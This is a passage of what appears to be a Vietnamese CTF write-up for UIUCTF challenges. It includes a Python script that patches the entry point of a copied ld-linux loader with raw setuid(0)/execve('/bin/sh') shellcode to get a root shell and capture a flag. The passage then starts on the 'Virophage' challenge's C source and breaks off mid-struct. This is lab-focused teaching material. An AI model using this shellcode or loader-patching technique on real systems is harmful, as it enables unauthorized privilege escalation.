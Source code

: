 Bây giờ đơn giải mình chỉ cần copy file `ld` ra ngoài và sửa phần code ở entry-point của nó thành shellcode `setuid(0); execve("/bin/sh",{"/bin/sh,0},0)`.

Ở máy ảo qemu này có python nên mình viết script python cho tiện:

```python
import os
os.system("ln /usr/lib/zapps/build/exe") # for only zapp1
os.system("cp /usr/lib/zapps/build/libc.so.6 .")
os.system("cp /usr/lib/zapps/build/ld-linux-x86-64.so.2 .")

f = open("ld-linux-x86-64.so.2","rb")
data = f.read()
f.close()

data = list(data)
offset = 0x202b0

shellcode = b"\x31\xC0\xB0\x69\x31\xFF\x0F\x05\x48\x31\xD2\x48\x31\xF6\x48\x31\xC0\x50\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x54\x5F\x6A\x00\x57\x54\x5E\x48\x89\xF2\xB0\x3B\x0F\x05"

for i in range(len(shellcode)):
    data[offset+i] = shellcode[i]

f = open("ld-linux-x86-64.so.2","wb")
f.write(bytes(data))
f.close()
os.system("./exe")
```

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/5f4563e1-d503-42c2-af09-2e333484e10e)

Flag: `uiuctf{did-you-see-why-its-in-usr-lib-now-0cd5fb56}`.

## Virophage

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/ce6f614a-8a1b-49cd-a57c-e3a7cc49bdd9)

Check source code từ file `Virophage.c`:

```c
...
static void virophage_write_virus(const char *path)
{
	/* load_elf_phdrs wants at least one segment, else it errors */
	target_ulong phage = virophage_request_phage();

	struct {
		Elf32_Ehdr ehdr;
		Elf32_Phdr phdr;
	} data = {
		.ehdr = {
			.e_ident = {
				ELFMAG0, ELFMAG1, ELFMAG2, ELFMAG3,
				ELFCLASS32, ELFDATA2LSB, EV_CURRENT,
				ELFOSABI_SYSV
			},
			.e_type = ET_EXEC,
			.e_machine = EM_386,
			.e_version = EV_CURRENT,
			.e_entry = phage,
			.e_ehsize = sizeof(Elf32_Ehdr),
			.e_phentsize = sizeof(Elf32_Phdr),
			.e_phnum = 1,
		},
```